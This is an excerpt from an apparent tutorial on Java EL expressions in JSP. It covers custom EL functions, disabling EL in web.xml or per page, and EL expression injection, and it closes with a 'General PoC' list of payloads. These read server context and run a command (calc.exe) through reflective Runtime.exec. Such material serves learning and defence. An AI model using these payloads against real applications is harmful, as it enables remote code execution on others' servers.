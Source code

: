 In the `JSP` file, first import the `taglib` tag library in the head, the `URI` is the `URI` address set in `test.tld`, and the `prefix` is the `short-name` set in `test.tld`, and then directly call the method of this class using the `class name: method name()` form in the `EL` expression:

```java
<%@taglib uri="http://www.h3rmesk1t.com/ELFunc" prefix="ELFunc"%>
${ELFunc:doSomething("h3rmesk1t")}
```

<div align=center><img src="./images/1.png"></div>

# Start/disable EL expressions in JSP
## Globally disable EL expressions
In `web.xml`, perform the following configuration:

```xml
<jsp-config>
    <jsp-property-group>
        <url-pattern>*.jsp</url-pattern>
        <el-ignored>true</el-ignored>
    </jsp-property-group>
</jsp-config>
```

## Disable EL expressions in a single file
In the `JSP` file, there can be the following definition to indicate whether to disable the `EL` expression. `true` means prohibited, and `false` means not prohibited. The `EL` expression is enabled by default in `JSP2.0`.

```java
<%@ page isELIgnored="true" %>
```

<div align=center><img src="./images/2.png"></div>

# EL Expression Injection Vulnerability
Principle of EL` expression injection vulnerability: The external controllable expression causes the attacker to inject malicious expressions to implement arbitrary code execution. Generally speaking, the external controllable point entry of the EL` expression injection vulnerability is in the `Java` program code, that is, the content of the EL` expression in the `Java` program is obtained from the outside in all or part.

## General PoC
```java
// Corresponding to the pageContext object in the JSP page.
${pageContext}

// Get the web path.
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}

// File header parameters.
${header}

// Get webRoot.
${applicationScope}

// Execute the command.
${pageContext.setAttribute("a","".getClass().forName("java.lang.Runtime").getMethod("exec","".getClass()).invoke("".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"calc.exe"))}
```
